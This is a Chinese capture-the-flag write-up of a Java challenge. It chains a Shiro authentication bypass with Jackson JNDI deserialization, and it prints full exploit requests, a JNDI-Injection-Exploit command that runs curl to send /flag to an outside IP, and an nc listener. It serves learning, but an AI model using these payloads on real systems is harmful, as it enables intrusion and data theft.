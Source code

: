 # 前言

在复现强网拟态的那题Java，原来是今年红明谷的原题，所以到buuctf上复现了一下，熟悉一下攻击的流程，之后学习具体的技术细节。



# WP

首先进入页面一看到那个500页面就知道是Spring或者SpringBoot了（还是不太了解，之后再去好好学学）。访问`/login`会提示`/json`，再访问`/json`又会302返回`/login`，很明显是需要登录得了，传点东西：

```
username=1&password=1
```

提示登录失败，但是cookie里带了`rememberMe=deleteMe;`，是个shiro，需要利用CVE-2020-11989（Apache Shiro 身份验证绕过漏洞）：

```http
POST /;/json HTTP/1.1
Host: abdae116-e772-4ce0-8860-b85dbc7f27c2.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: JSESSIONID=E00995E63A26DD274E5BAB6C330E7518
Connection: close
Content-Type: application/json
Content-Length: 2

[]
```

成功绕过。这时候报错会告诉jsckson，尝试jackson的反序列化（这里就是知识盲区了）。

关于jackson的gadget文章：

http://b1ue.cn/archives/189.html



也是第一次遇到jackson的反序列化，像之前的fastjson的反序列化一样，可以rmi或者ldap进行攻击，学习一下这个jndi注入的工具：

https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md

利用curl外带出flag，也是学了一手curl -F的使用：

```shell
root@VM-0-6-ubuntu:~/java/jndi# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'curl http://121.5.169.223:39767 -File=@/flag' -A "121.5.169.223"
[ADDRESS] >> 121.5.169.223
[COMMAND] >> curl http://121.5.169.223:39767 -F file=@/flag
----------------------------JNDI Links----------------------------
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://121.5.169.223:1099/6dzonl
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://121.5.169.223:1099/ojakic
ldap://121.5.169.223:1389/ojakic
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://121.5.169.223:1099/wykevr
ldap://121.5.169.223:1389/wykevr

----------------------------Server Log----------------------------
2021-10-30 21:59:26 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2021-10-30 21:59:26 [RMISERVER]  >> Listening on 0.0.0.0:1099
2021-10-30 21:59:27 [LDAPSERVER] >> Listening on 0.0.0.0:1389


```



再起一个nc接受这个数据：

```shell
nc -lvvp 39767
```

选择`rmi://121.5.169.223:1099/6dzonl`，进行攻击：

```http
POST /;/json HTTP/1.1
Host: abdae116-e772-4ce0-8860-b85dbc7f27c2.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: JSESSIONID=E00995E63A26DD274E5BAB6C330E7518
Connection: close
Content-Type: application/json
Content-Length: 98

["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"rmi://121.5.169.223:1099/6dzonl"}]
```



攻击成功，接收到flag：

```http
root@VM-0-6-ubuntu:~# nc -lvvp 39767
Listening on [0.0.0.0] (family 0, port 39767)
Connection from 117.21.200.166 52663 received!
POST / HTTP/1.1
User-Agent: curl/7.38.0
Host: 121.5.169.223:39767
Accept: */*
Content-Length: 239
Expect: 100-continue
Content-Type: multipart/form-data; boundary=------------------------644113426ad92d3d

--------------------------644113426ad92d3d
Content-Disposition: form-data; name="file"; filename="flag"
Content-Type: application/octet-stream

flag{056d95fc-e903-41c0-9158-9c559701ee9c}

--------------------------644113426ad92d3d--


```

